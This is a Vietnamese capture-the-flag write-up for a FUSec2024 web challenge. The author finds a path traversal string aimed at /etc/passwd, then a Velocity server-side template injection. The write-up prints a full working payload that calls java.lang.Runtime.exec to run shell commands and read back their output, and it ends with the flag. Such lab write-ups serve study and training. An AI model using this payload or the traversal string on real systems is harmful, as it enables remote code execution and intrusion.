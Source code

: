 # lsH0wSp33d

Bởi vì team mình là team có 3 người chơi forensics và 1 người chơi crypto. Vậy nên, bọn mình chỉ có thể solve được 1 bài web duy nhất

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/cd6bebfd-8409-48ef-bc99-a17d3e5520b9)

Ở đây, ta thử scan web xem có cái gì không. Sau khi scan ra, mình thấy 1 uri đáng ngờ là ``` /\..\..\..\..\..\..\..\..\..\etc\passwd ```

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/523df1d6-6667-4f46-9e74-1f619aded8a4)

Sau khi paste vào url thì mình thấy giao diện web không còn gì cả, không còn màu mè hoa lá

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/289d0c5b-5abb-461b-bebe-d3e3e86ebe1e)

Sau đó, mình thử bấm enter để search thì nó xuất hiện một dòng có vẻ như là vuln của web này ? Vì mình không học web mà chỉ là rẽ ngang nên không rõ lắm

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/11dfde2e-afea-4c66-affd-3c9645ad6e09)

Sau khi qua tìm hiểu, mình thấy rằng velocity là 1 Java-based Template. Vì thế nên, có thể sẽ có đoạn payload nào đó để inject vào trong cái bài này. Em google thử velocity payload shell script thì ra được đoạn payload là:

``` #set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output ```

src: https://github.com/epinna/tplmap/issues/9

Lúc này, ta thử paste đoạn payload kia vào trong ô search keywords và ra được kết quả

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/eb95dc5e-0ff5-4370-a332-6f5455a559ef)

Flag: FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}








